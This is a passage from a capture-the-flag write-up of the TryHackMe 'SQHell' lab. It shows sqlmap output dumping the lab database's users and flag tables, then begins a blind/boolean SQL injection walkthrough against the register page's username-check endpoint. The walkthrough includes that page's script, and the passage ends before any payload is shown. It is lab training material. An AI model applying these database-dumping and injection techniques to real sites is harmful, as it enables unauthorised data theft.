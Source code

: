 ```
[22:50:52] [INFO] table 'sqhell_5.users' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/users.csv'
[22:50:52] [INFO] fetching columns for table 'flag' in database 'sqhell_5'
[22:50:53] [INFO] fetching entries for table 'flag' in database 'sqhell_5'
Database: sqhell_5
Table: flag
[1 entry]
+----+---------------------------------------------+
| id | flag                                        |
+----+---------------------------------------------+
| 1  | THM{FLAG5:<HIDDEN>}                         |
+----+---------------------------------------------+
[22:50:53] [INFO] table 'sqhell_5.flag' dumped to CSV file '/root/.local/share/sqlmap/output/sqhell.thm/dump/sqhell_5/flag.csv'
[22:50:53] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/sqhell.thm'
[*] ending @ 22:50:53 /2021-06-10/
```

We have the flag with only two runs of SQLMap, nice and simple!

Let’s move on to the next flag.

### Flag 3 - Blind/Boolean - Browser Method[Permalink](https://pencer.io/ctf/ctf-thm-sqhell/#flag-3---blindboolean---browser-method) <a href="#flag-3---blindboolean---browser-method" id="flag-3---blindboolean---browser-method"></a>

I found [this](https://www.hackingarticles.in/beginner-guide-sql-injection-boolean-based-part-2/) guide, which is a good in depth look at blind or boolean based attacks.

First looking at the Register page to see what we are dealing with:

![sqhell-register](https://pencer.io/assets/images/2021-06-14-22-09-41.png)

If we try admin as the user we see a message saying it’s taken:

![sqhell-admin](https://pencer.io/assets/images/2021-06-14-22-10-40.png)

If we try test as the user we see a message saying it’s available:

![sqhell-test](https://pencer.io/assets/images/2021-06-14-22-11-36.png)

Looking at the source code for the page we see how this works:

```
<script>
    $('input[name="username"]').keyup(function(){
        $('.userstatus').html('');
        let username = $(this).val();
        $.getJSON('/register/user-check?username='+ username,function(resp){
            if( resp.available ){
                $('.userstatus').css('color','#80c13d');
                $('.userstatus').html('Username available');
            }else{
                $('.userstatus').css('color','#F00');
                $('.userstatus').html('Username already taken');
            }
        });
    });
</script>
```
